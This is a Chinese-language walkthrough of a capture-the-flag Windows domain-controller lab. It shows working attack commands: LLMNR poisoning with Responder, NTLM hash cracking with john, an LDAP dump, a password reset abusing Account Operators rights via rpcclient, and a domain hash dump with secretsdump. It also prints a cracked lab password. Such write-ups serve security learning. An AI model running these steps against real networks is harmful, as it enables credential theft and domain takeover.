







## Box Info

| OS | Windows |
| --- | --- |
| Difficulty | Medium |

## Nmap

```
[root@kali] /home/kali/Desktop  
❯ nmap 192.168.56.103 -sSV -Pn -A -T4

PORT     STATE SERVICE       VERSION
53/tcp   open  domain?
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-03-02 03:01:34Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: SOUPEDECODE.LOCAL0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: SOUPEDECODE.LOCAL0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
MAC Address: 08:00:27:46:72:D1 (Oracle VirtualBox virtual NIC)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2022|11|2016 (97%)
OS CPE: cpe:/o:microsoft:windows_server_2016
Aggressive OS guesses: Microsoft Windows Server 2022 (97%), Microsoft Windows 11 21H2 (91%), Microsoft Windows Server 2016 (91%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 1 hop
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
|_clock-skew: 14h59m36s
| smb2-time: 
|   date: 2025-03-02T03:03:53
|_  start_date: N/A
|_nbstat: NetBIOS name: DC01, NetBIOS user: <unknown>, NetBIOS MAC: 08:00:27:46:72:d1 (Oracle VirtualBox virtual NIC)
```

把**DC01**.**SOUPEDECODE.LOCAL**添加到**/etc/hosts**

## LLMNR & NBT-NS

我尝试直接枚举靶机上的信息，没有成功。

在做**sherlocks**的时候遇到过这个问题：[Sherlocks-Reaper - HYH](https://www.hyhforever.top/sherlocks-reaper/)

这里是涉及到的一些文章

- [渗透测试之 Responder 工具详解 中间人攻击 LLMNR链路本地多播名称解析 NBNS 网络基本输出系统名称服务 NTLM Relay攻击利用工具一篇文章让你明明白白\_responder工具-CSDN博客](https://blog.csdn.net/zhzx123aa/article/details/143895634)

- [【内网学习笔记】18、LLMNR 和 NetBIOS 欺骗攻击 | TeamsSix](https://teamssix.com/210729-191048)

要说明的是，这个攻击不需要凭证，但是是有前提的

- **无有效的 DNS**: 当网络中缺乏有效的 DNS 服务器时，设备会尝试使用 LLMNR 或 NBT-NS 进行名称解析。这种情况下，攻击者可以更容易地利用这些协议进行攻击。

- **启用的 LLMNR 和 NBT-NS**: 目标主机必须启用 LLMNR 和 NBT-NS 服务。在许多 Windows 系统中，这些服务默认是启用的。

- **同一广播域内**: 攻击者和目标设备需要处于同一广播域内。LLMNR 和 NBT-NS 是基于广播的协议，因此攻击者需要能够接收到这些广播请求。

```
[root@kali] /home/kali/Desktop  
❯ responder -I eth0
```



成功接收到**NTLM**哈希值，直接使用**john**爆破

```
[root@kali] /home/kali/DC03  
❯ john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt  
Using default input encoding: UTF-8
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
jesuschrist      (xkate578)     
1g 0:00:00:00 DONE (2025-03-01 20:28) 100.0g/s 204800p/s 204800c/s 204800C/s 123456..lovers1
Use the "--show --format=netntlmv2" options to display all of the cracked passwords reliably
Session completed. 
```

## SMBmap



进入到**share**目录，拿到**user.txt**



## ldapdomaindump

**LDAPDomainDump**是一款利用**LDAP**协议收集活动目录信息的工具

```
[root@kali] /home/kali/DC03  
❯ ldapdomaindump -u "SOUPEDECODE.LOCAL\xkate578" -p jesuschrist 192.168.56.103                                                                            ⏎
[*] Connecting to host...
[*] Binding to host
[+] Bind OK
[*] Starting domain dump
[+] Domain dump finished
```

然后使用**python.http.server**即可查看到**html**文件

可以看到**Operators**属于**Domain Admins**组



而我们的用户属于**Account Operators**组



还有一个用户属于**Operator**组


因此目前要做的是，通过当前的**xkate578**用户去修改**fbeth103**的密码

```
[root@kali] /home/kali/DC03  
❯ rpcclient -U "xkate578" --password="jesuschrist"  192.168.56.126                                                                                        ⏎
rpcclient $> setuserinfo2 fbeth103 23 "Pass1234!"
rpcclient $> 
```

## Secretdump

改好之后尝试获取域内的哈希，注意不是本地的！

```
[root@kali] /home/kali/DC03  
❯ impacket-secretsdump 'SOUPEDECODE.LOCAL/fbeth103:Pass1234!'@192.168.56.126   
```





## Summary

`User`：**LLMNR 中毒攻击**获取到**xkate578**的**Net-NTLM Hash**，并且在**smb**服务中拿到**user.txt**。这还是我第一次在渗透中使用**LLMNR**，之前还是在日志分析的时候了解的。

`Root`：通过**ldap**端口进行信息收集，这里我本想用的是**bloodhound**，但是老是报错。发现当前用户可以修改高权限组的成员密码，修改后**dumphash**，最后**Evil-winrm**登录。

其中重置了一下靶机，因此**IP**变化了。
